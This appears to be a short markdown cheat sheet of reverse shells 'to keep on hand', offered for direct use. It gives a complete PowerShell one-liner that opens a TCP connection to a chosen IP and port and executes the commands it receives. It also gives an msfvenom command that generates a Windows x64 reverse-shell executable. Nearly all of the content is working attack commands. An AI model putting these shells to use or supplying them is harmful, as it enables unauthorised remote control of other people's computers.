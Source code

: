 # List of useful shells to keep on hand.

### Powershell reverse shell. Just need to replace IP and PORT of your choice and copy into cmd.exe or another method of executing commands.
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### msfvenom
```<OS>/<arch>/<payload>``` Basic convention.
```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>``` Windows x64 Reverse Shell in an exe format.
